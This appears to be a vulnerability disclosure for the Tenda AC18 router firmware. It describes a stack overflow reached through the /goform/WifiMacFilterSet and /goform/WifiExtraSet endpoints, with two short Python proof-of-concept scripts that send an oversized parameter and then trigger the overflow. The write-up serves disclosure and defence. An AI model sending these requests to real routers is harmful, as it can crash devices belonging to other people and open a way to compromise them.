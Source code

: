 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/WifiMacFilterSet` url. The `Var` variable receives the `wifi_chkHz` parameter from a POST request and is stored in the configuration item named`wl.bcm11ac` through the SetValue function.To run to this branch, the value of the `ssid_index` parameter needs to be set to 1 and the value of the `filter_mode` parameter needs to be set to 1.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250928_125253.png)

`wl.bcm11ac`  configuration item can  be retrieved through the GetValue function in the `/goform/WifiExtraSet` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows by the `v10` variable.To run to this branch, the value of the `wl_mode` parameter needs to be set to ap.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250928_125931.png)

## PoC

Set `wl.bcm11ac`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WifiMacFilterSet"
payload = "a"*1000

data = {"wifi_chkHz":payload,"ssid_index":1,"filter_mode":1}
response = requests.post(url, data=data)
print(response.text)
```

Get `wl.bcm11ac`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WifiExtraSet"
data = {"wl_mode":"ap"}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)